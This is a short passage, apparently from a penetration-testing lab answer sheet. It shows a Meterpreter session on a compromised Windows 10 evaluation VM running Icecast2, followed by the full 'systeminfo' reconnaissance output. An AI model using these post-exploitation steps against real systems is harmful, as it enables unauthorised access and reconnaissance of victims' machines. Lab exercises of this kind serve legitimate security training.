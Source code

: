   ```
  ```
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
  ```
  meterpreter > shell
  Process 7956 created.
  Channel 6 created.
  Microsoft Windows [Version 10.0.17763.1935]
  (c) 2018 Microsoft Corporation. All rights reserved.

  C:\Program Files (x86)\Icecast2 Win32>systeminfo
  systeminfo

  Host Name:                 MSEDGEWIN10
  OS Name:                   Microsoft Windows 10 Enterprise Evaluation
  OS Version:                10.0.17763 N/A Build 17763
  OS Manufacturer:           Microsoft Corporation
  OS Configuration:          Standalone Workstation
  OS Build Type:             Multiprocessor Free
  Registered Owner:          
  Registered Organization:   Microsoft
  Product ID:                00329-20000-00001-AA236
  Original Install Date:     3/19/2019, 4:59:35 AM
  System Boot Time:          9/27/2021, 1:35:43 AM
  System Manufacturer:       Microsoft Corporation
  System Model:              Virtual Machine
  System Type:               x64-based PC
  Processor(s):              1 Processor(s) Installed.
                            [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2295 Mhz
  BIOS Version:              American Megatrends Inc. 090007 , 5/18/2018
  Windows Directory:         C:\Windows
  System Directory:          C:\Windows\system32
  Boot Device:               \Device\HarddiskVolume1
  System Locale:             en-us;English (United States)
  Input Locale:              en-us;English (United States)
  Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
  Total Physical Memory:     2,012 MB
  Available Physical Memory: 568 MB
  Virtual Memory: Max Size:  3,292 MB
  Virtual Memory: Available: 1,594 MB
  Virtual Memory: In Use:    1,698 MB
  Page File Location(s):     C:\pagefile.sys
  Domain:                    WORKGROUP
  Logon Server:              \\MSEDGEWIN10
  Hotfix(s):                 11 Hotfix(s) Installed.
                            [01]: KB4601555
                            [02]: KB4465065
                            [03]: KB4470788
                            [04]: KB4480056
                            [05]: KB4486153
                            [06]: KB4535680
                            [07]: KB4537759
                            [08]: KB4539571
                            [09]: KB4549947
                            [10]: KB5003243
                            [11]: KB5003171
  Network Card(s):           1 NIC(s) Installed.
                            [01]: Microsoft Hyper-V Network Adapter
                                  Connection Name: Ethernet
                                  DHCP Enabled:    No
                                  IP address(es)
                                  [01]: 192.168.0.20
  ```